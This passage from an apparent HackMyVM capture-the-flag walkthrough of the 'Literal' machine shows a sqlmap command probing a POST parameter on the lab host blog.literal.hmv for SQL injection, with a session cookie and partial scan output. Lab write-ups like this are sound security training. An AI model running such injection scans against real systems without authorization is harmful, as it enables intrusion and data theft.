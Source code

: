 ![](/assets/img/posts/walthrough/hackmyvm/2024-10-01-literal/user-homepage.png)
![](/assets/img/posts/walthrough/hackmyvm/2024-10-01-literal/project-page.png)

This page allows us to filter projects depending on the project's status i.e. done, to do, or doing. This could be done by using the input parameter in a database query. Let's test this parameter for the presence of any SQL injection vulnerability using SQLMap.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/Literal/Scans/Web]
└─$ sqlmap -u http://blog.literal.hmv/next_projects_to_do.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: PHPSESSID=vmbc58cd7jbarcmhtmfv83t6mt" --data "sentence-query=done" --batch  
<SNIP>
[16:18:33] [INFO] testing connection to the target URL
[16:18:33] [INFO] checking if the target is protected by some kind of WAF/IPS                                                          
[16:18:33] [INFO] testing if the target URL content is stable
[16:18:34] [INFO] target URL content is stable                     
[16:18:34] [INFO] testing if POST parameter 'sentence-query' is dynamic
[16:18:34] [INFO] POST parameter 'sentence-query' appears to be dynamic
[16:18:34] [WARNING] heuristic (basic) test shows that POST parameter 'sentence-query' might not be injectable   
<SNIP>
```